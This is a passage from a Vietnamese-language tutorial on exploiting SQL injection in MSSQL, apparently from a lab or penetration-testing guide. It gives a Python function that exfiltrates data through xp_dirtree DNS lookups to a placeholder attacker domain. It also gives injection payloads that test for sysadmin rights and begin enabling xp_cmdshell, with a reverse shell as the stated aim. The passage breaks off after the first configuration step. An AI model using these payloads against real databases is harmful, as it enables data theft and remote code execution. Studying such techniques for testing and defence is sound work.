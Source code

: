 #### **Ví dụ:**
```python
def split_and_send(data):
    subdomains = [data[i:i+63] for i in range(0, len(data), 63)]
    for subdomain in subdomains:
        payload = f"maria';DECLARE @T='{subdomain}';EXEC('master..xp_dirtree \"\\'+@T+'.YOUR.DOMAIN\"');--"
        send_payload(payload)
```

---


# 11. Remote Code Execution qua SQL Injection (MSSQL)

---

### **Tổng quan**
Khai thác lỗ hổng **SQL Injection** để kích hoạt **Remote Code Execution (RCE)** thông qua MSSQL. Mục tiêu cuối cùng là:
1. Kích hoạt **xp_cmdshell**.
2. Thực thi lệnh để kiểm tra quyền.
3. Thiết lập reverse shell.

---

### **1. Kiểm tra quyền sysadmin**

#### **Mục tiêu:**
Xác định xem tài khoản có quyền **sysadmin** hay không.

#### **Payload:**
```sql
maria' AND IS_SRVROLEMEMBER('sysadmin')=1;--
```

- **Kết quả:**
  - **`taken`** → Tài khoản có quyền sysadmin.
  - **`available`** → Tài khoản không có quyền sysadmin.

---

### **2. Kích hoạt xp_cmdshell**

#### **Mục tiêu:**
Bật **xp_cmdshell** (mặc định bị tắt).

#### **Quy trình:**
1. Bật **show advanced options**:
   ```sql
   ';exec sp_configure 'show advanced options','1';reconfigure;--
   ```
